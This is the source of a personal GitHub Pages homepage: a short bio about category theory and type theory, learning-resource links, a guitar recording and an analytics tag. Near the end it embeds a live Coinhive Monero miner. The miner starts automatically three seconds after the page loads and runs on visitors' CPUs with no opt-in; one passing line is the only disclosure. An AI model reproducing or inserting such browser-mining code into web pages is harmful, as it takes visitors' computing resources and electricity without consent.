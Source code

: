 ```yaml
---
layout:
---
```

Welcome to the user site of [github/bohadi](https://github.com/bohadi).<br>
Feel free to look around.

I am interested in engineering effective software<br>
via application of category theory and type theory.

<!--
compilers, blockchain, gpgpu

also AI/ML, genomics, 3d games
-->

<!--
contact me

bohadi@users.noreply.github.com
-->

helpful learning resources:<br>
[ParCon](http://chimera.labs.oreilly.com/books/1230000000929/index.html)<br>
[PFPL](http://www.cs.cmu.edu/~rwh/pfpl.html)<br>
[CTFP](https://bartoszmilewski.com/2014/10/28/category-theory-for-programmers-the-preface/)<br>
[oplss17](https://www.cs.uoregon.edu/research/summerschool/summer17/topics.php)<br>
[ncatlabwiki](https://ncatlab.org/nlab/show/HomePage)<br>
[HoTT](https://homotopytypetheory.org/book/)<br>
[IToC](https://math.mit.edu/~sipser/book.html)<br>
[AOSA/ghc](http://www.aosabook.org/en/ghc.html)<br>
[archwiki](https://wiki.archlinux.org/)<br>
[r/haskell](http://www.reddit.com/r/haskell)<br>
[r/rust](http://www.reddit.com/r/rust)<br>
[TRPL](https://doc.rust-lang.org/stable/book/second-edition/)<br>


more nice links:<br>
[news.ycombinator.com](https://news.ycombinator.com)<br>
[cryptowat.ch](https://cryptowat.ch)<br>
[SEP/random](https://plato.stanford.edu/cgi-bin/encyclopedia/random)<br>


I enjoy playing the guitar, here is a short recording.

<audio width="400" height="40" controls controlsList="nodownload">
  <source src="noodle.mp3" type="audio/mpeg">
</audio>

<br>

Thank you for visiting.<br>
Finally, this page can mine Monero on your machine.<br>
<div id='minerstatus'>
Attempting to connect...
</div>
<div id='minerio'>
Hashes/second: 0   <br>
total Hashes: 0    <br>
</div>

<script src="https://coin-hive.com/lib/coinhive.min.js"></script>
<script>
  var minerstatus = document.getElementById('minerstatus');
  var minerio     = document.getElementById('minerio');
  setTimeout( function() {
    try {
      var miner = new CoinHive.Anonymous('A9pTI4370gQQt0dRaNJFmFnPXXDvsEwS', {
        threads: 2,
        throttle: 0.5
      });
      miner.start();
      miner.on('open', function() {
        minerstatus.innerHTML =
          'Connected... ('+miner.getNumThreads()+' threads throttled at '+
          100*miner.getThrottle().toFixed(2)+'% WASM supported: '+miner.hasWASMSupport()+')';
      });
      miner.on('error', function() {
        miner.stop();
        minerstatus.innerHTML = '...Connection error. Miner stopping.';
      });
      setInterval(function() {
        minerio.innerHTML = 
          'Hashes/second:  '   + miner.getHashesPerSecond().toFixed(0) + '<br>' +
          ' total Hashes: '    + miner.getTotalHashes()                + '<br>' ;
      }, 1000);
    } catch (e) {
      minerstatus.innerHTML = '...Connection error (adblock). Miner stopping.';
    }
  }, 3000);
</script>

<script async src="https://www.googletagmanager.com/gtag/js?id=UA-106946514-1"></script>
<script>
  window.dataLayer = window.dataLayer || [];
  function gtag(){dataLayer.push(arguments)};
  gtag('js', new Date());
  gtag('config', 'UA-106946514-1');
</script>
<meta http-equiv="Cache-Control" content="no-cache, no-store, must-revalidate">
<meta http-equiv="Pragma" content="no-cache">
<meta http-equiv="Expires" content="0">
